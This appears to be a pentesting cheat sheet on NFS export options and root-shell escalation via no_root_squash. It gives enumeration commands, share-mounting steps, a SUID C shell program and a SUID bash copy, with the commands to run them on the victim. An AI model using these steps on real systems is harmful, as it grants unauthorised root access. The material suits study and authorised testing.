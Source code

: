 # NFS Root Squashing
Network File System (NFS): Network File System permits a user on a client machine to mount the shared files or directories over a network. NFS uses Remote Procedure Calls (RPC) to route requests between clients and servers. Although NFS uses TCP/UDP port 2049 for sharing any files/directories over a network.

- **rw:** Permit clients to read as well as write access to the shared directory.
- **ro:** Permit clients to Read-only access to shared directory.
- **root_squash:** This option Prevents file request made by user root on the client machine because NFS shares change the root user to the nfsnobody user, which is an unprivileged user account.
- **no_root_squash: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implication.**
- **async:** It will speed up transfers but can cause data corruption as NFS server doesn’t wait for the complete write operation to be finished on the stable storage, before replying to the client.
- **sync:** The sync option does the inverse of async option where the NFS server will reply to the client only after the data is finally written to the stable storage.

## 🔍Enumeration
### 🎯Victim
```
cat /etc/exports     # → Do we see any no_root_squash enabled on a mounted share?
# Output example: /tmp *(rw,sync,insecure,no_root_squash,no,subtree,check) 
```
### 💀Attacker
```
nmap -sV --script=nfs-showmount <victim_ip> 
```

## 📌Privilege Escalation
### 💀Attacker
```
showmount -e <victim_ip>                      
mkdir /tmp/mount                                
mount -o rw,vers=2 <victim_ip>:/tmp /tmp/mount  
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mount/priv.c  
gcc /tmp/mount/priv.c -o /tmp/mount/priv
chmod +s /tmp/mount/priv

#OR

showmount -e <victim_ip>   
mkdir /tmp/mount 
mount -o rw,vers=2 <victim_ip>:/tmp /tmp/mount  
cd /tmp/mount
cp /bin/bash .
chmod +s bash
```
```
# C Code:
#include <unistd.h>  // for setuid() and setgid()
#include <stdlib.h>  // for system()

int main() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```
### 🎯Victim
```
Victim

cd /tmp
./priv
id && whoami

#OR

cd /tmp
./bash -p
id && whoami
```
